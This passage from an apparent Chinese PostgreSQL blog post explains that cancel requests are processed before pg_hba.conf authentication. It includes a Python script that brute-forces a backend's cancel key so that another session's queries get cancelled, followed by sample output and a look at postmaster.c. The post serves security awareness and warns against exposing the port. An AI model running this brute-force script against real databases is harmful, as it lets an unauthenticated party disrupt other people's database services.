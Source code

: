 PostgreSQL处理CANCEL的消息是在PG_HBA.CONF之前的，这才是风险的关键。  
  
```
[root@digoal ~]# vi cancel.py 
#!/usr/bin/python
import struct
import socket
import sys

def pg_cancel_query(pid, cancel_key):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("127.0.0.1",1921))
    buffer = struct.pack('IIII', socket.htonl(16), socket.htonl((1234<<16)|(5678)),\
            socket.htonl(int(pid)), socket.htonl(int(cancel_key)))
    s.send(buffer)
    # log.info("cancel query %s: return %s" % (query, s.recv(1024)))
    s.close() 

for i in xrange(1,2147483647):
  pg_cancel_query(int(sys.argv[1]),i)
```
  
执行  
  
```
[root@digoal ~]# ./cancel.py 61758
```
  
一段时间后，你的这个LONG SQL语句可能会被CANCEL掉。  
  
```
ERROR:  canceling statement due to user request
```
  
而在你的日志中可能会有大量的这样的报错  
  
```
2015-09-29 14:22:41.767 CST,,,61756,"127.0.0.1:28378",560a2e31.cc83,2,"",2015-09-29 14:22:41 CST,,0,LOG,00000,
"wrong key in cancel request for process 61758",,,,,,,,"processCancelRequest, postmaster.c:2126",""
```
  
也就是说，外界在没有密码的情况下，同时pg_hba.conf也不允许连接的情况下，还是可以把你的SQL CANCEL掉。只要他尝试正确了你的PID和这个PID对应的cancel_key。  
  
不要没事把数据库端口暴露出来，破解密码是一种威胁，另一种威胁就是前面举的例子。  
  
## 风险源码分析  
  
PostgreSQL为每个backend pid存储了一个cancel_key，这个KEY是一个随机long值。  
  
```
src/backend/postmaster/postmaster.c
/*
 * List of active backends (or child processes anyway; we don't actually
 * know whether a given child has become a backend or is still in the
 * authorization phase).  This is used mainly to keep track of how many
 * children we have and send them appropriate signals when necessary.
 *
 * "Special" children such as the startup, bgwriter and autovacuum launcher
 * tasks are not in this list.  Autovacuum worker and walsender are in it.
 * Also, "dead_end" children are in it: these are children launched just for
 * the purpose of sending a friendly rejection message to a would-be client.
 * We must track them because they are attached to shared memory, but we know
 * they will never become live backends.  dead_end children are not assigned a
 * PMChildSlot.
 *
 * Background workers that request shared memory access during registration are
 * in this list, too.
 */
typedef struct bkend
```